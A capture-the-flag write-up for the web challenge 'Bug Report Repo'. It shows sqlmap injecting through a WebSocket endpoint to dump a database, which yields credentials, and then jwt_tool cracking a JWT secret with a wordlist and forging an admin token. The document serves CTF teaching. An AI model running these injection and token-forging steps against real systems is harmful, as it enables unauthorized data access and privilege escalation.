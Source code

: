# CTF Write-Up: [Bug Report Repo]

## Challenge Information

- **Category:** [Web]
- **Points:** [342]
- **Solves:** [64]
- **Author:** [CryptoCat]
- **Challenge Description:** [I started my own bug bounty platform! The UI is in the early stages but we've already got plenty of submissions. I wonder why I keep getting emails about a "critical" vulnerability report though, I don't see it anywhere on the system 😕]

## Solution

### Summary

We can arrange items by ID from 1 to 10.

![bug_repo_1](https://user-images.githubusercontent.com/105972068/285240795-d15025d2-4bdf-4290-81ca-897294c596fa.png)

When We put over the ID

![bug_repo_2](https://user-images.githubusercontent.com/105972068/285240843-c40d3dd6-1bc4-481b-b431-5ae2a6bbd82d.png)

When I try to order with ID 11, I encounter

![bug_repo_3](https://user-images.githubusercontent.com/105972068/285240862-7d213ee0-bdc2-4094-a664-e57fd23f45d5.png)
Does it seem like it comes from the database?

All order IDs are processed using the WebSocket protocol, not the Post method.

![bug_repo_4](https://user-images.githubusercontent.com/105972068/285249312-6d14414d-8d1d-402c-b17c-dedb1978ab35.png)

### Walkthrough

> I discovered this command for the injection. 
> - The original link is "https://bountyrepo.ctf.intigriti.io/". We have to replace "https" with "wss".
> - --data=Data: Data string to be sent through POST (e.g. "id=1")
> - --dbms=DBMS: Force back-end DBMS to provided value
```
sqlmap -u 'wss://bountyrepo.ctf.intigriti.io:443/ws' --random-agent --data '{"id":"11"}' --dbms sqlite --dump --batch
```

*Result:*
![bug_repo_5](https://user-images.githubusercontent.com/105972068/285264202-03df9db2-25e3-4e3f-9aaa-ec6358d2a3b6.png)
```
crypt0:c4tz on /4dm1n_z0n3, really?!
```
> Navigate to /4dm1n_z0n3, and we'll find the login page.
![bug_repo_6](https://user-images.githubusercontent.com/105972068/285264222-564e455e-f2b5-4711-9e7d-4d21b632b936.png)

> Use the credentials "crypt0" for the username and "c4tz" for the password to log in.
![bug_repo_7](https://user-images.githubusercontent.com/105972068/285264227-41da7566-6a52-468f-b39e-50928e115dd6.png)

> After logging in, we received the message **"only viewable by the admin"**.
We also obtained this JWT.
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImNyeXB0MCJ9.zbwLInZCdG8Le5iH1fb5GHB5OM4bYOm8d5gZ2AbEu_I
```
> We can use hashcat, john, and jwt_tool to crack this JWT.
But I prefer using jwt_tool.
```
py jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImNyeXB0MCJ9.zbwLInZCdG8Le5iH1fb5GHB5OM4bYOm8d5gZ2AbEu_I -C -d C:\Tool_Exe\wordlist\rockyou.txt
```
*secret key:*
<mark>
  catsarethebest
</mark>

> Go to iwt.io, paste the JWT and secret key to see the complete details.
![bug_repo_9](https://user-images.githubusercontent.com/105972068/285272843-fe845d2a-3cce-40e3-b04f-93f04391f752.png)

> Modify this JWT from crpt0 to admin
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImNyeXB0MCJ9.zbwLInZCdG8Le5iH1fb5GHB5OM4bYOm8d5gZ2AbEu_I -S hs256 -p catsarethebest -pv admin -I -pc identity
```

*We get admin JWT:*
<mark>
  eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImFkbWluIn0.3xH8a2FskQJ3afYZeJCtwln4CRrwh4nidEy7S6fJoA0
</mark>

> Update the cookie in our browser, and we'll obtain the flag!
![bug_repo_8](https://user-images.githubusercontent.com/105972068/285264228-90545caf-8b99-478d-a6a1-c06f178f5829.png)



